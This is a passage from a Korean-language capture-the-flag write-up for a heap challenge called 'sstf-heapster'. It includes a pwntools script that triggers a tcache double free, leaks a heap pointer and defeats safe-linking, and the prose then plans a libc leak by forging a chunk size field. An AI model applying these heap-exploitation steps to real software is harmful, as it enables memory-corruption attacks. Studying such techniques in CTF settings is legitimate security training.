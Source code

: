 ```python
    return dec

 
def add(idx, data):
    cmd(1)
    p.sendline(str(idx).encode())
    p.sendline(data)

def delete(idx):
    cmd(2)
    p.sendline(str(idx).encode())

add(0, "double free")

delete(0)

add(0, p64(0) * 2) #overwrite tcache_entry.next & key

delete(0)#double free

cmd(3)

p.recvuntil(b'->')
ptr = u64(p.recvline()[:-1].ljust(8, b'\x00'))

print(hex(ptr))
print(hex(decrypt_safe_linking(ptr)))

heap_base = decrypt_safe_linking(ptr) - 0x2a0

gdb.attach(p)

p.interactive()
```

![Untitled](sstf-heapster/Untitled%202.png)

## Arbitrary Read/Write

이제 tcache dup도 했고 heap base도 알아냈고 safe link까지 풀었으니 `next` 포인터를 조작해서 임의의 주소에 청크를 할당해 봅시다!! 

### libc base leakage

그런데 어디에 할당해야 할까요?… 제일 처음 생각한 것은 제가 hook overwrite로 익스플로잇이 가능할 것이라 굳게 믿고 있었기 때문에 GOT에 청크를 할당하고 읽어서 libc base를 알아내려 했습니다. 그런데 이 바이너리는 Full RELRO가 적용되어 있습니다 ㅠㅠ. 할당까지는 어떻게 한다 해도 `add`에서 호출되는 `memcpy`로 GOT에 데이터를 쓴다면 프로세스가 그대로 죽어버리겠죠… 따라서 unsorted bin에 들어간 청크의 fd에 쓰인 main_arena 주소를 통해 libc_base를 알아내겠습니다. 하지만 `add`에서 확인할 수 있는 것처럼 `malloc`의 인자는 0x14로 고정되어 있습니다. 이러면 unsorted bin 크기의 청크를 할당할 수가 없습니다!!!… 따라서 다른 청크의 헤더에 청크를 할당하고 여기에 데이터를 쓰는 것으로 size 필드를 수정해 unsorted bin에 들어가게 만들어보죠. 다섯 개의 연속적인 청크를 할당하고 가장 낮은 주소의 청크의 헤더에 청크를 할당한 다음 size를 0xa1으로 변경했습니다(PREV_INUSE 포함)

